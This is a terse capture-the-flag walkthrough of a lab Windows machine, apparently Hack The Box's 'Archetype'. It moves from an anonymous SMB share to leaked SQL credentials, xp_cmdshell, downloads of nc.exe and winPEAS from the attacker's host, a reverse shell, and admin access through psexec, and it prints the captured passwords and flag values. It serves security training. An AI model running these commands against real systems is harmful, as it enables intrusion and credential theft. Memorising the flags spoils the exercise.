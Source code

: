 TARGET SHARE: backups (non-administrative because no $ so no password required)

```
smbclient //10.129.100.57/backups -U guest
> get prod.dtsConfig
```

USER: ARCHETYPE\sql_svc
PASSWORD: M3g4c0rp123

To establish authenticated connection to MS SQL:
```
mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.100.57 -windows-auth
> enable_xp_cmdshell
> reconfigure
```

Get exe file from host:
```
cd /opt/exe
sudo python3 -m http.server 80
```
```
> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.102/nc.exe -outfile nc.exe"
> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.102/winPEASx64.exe -outfile winPEAS.exe"
```

Start a reverse shell:
```
nc -nlvp 4444  
```
```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; ./nc.exe -e cmd.exe 10.10.14.102 4444"
```

C:\Users\sql_svc\Desktop\user.txt: 3e7b102e78218e935bf3f4951fec21a3

Priveledge Escalation:
```
> .\winPEAS.exe
```

PRIV ESC TARGET: C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

FILE CONTENT: net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!

PASSWORD: MEGACORP_4dm1n!!

Exploit writable shares on samba and start admin reverse shell:
```
sudo python3 psexec.py administrator@10.129.100.57
```

FLAG: b91ccec3305e98240082d4474b848528

--------------------------------------------------------------------
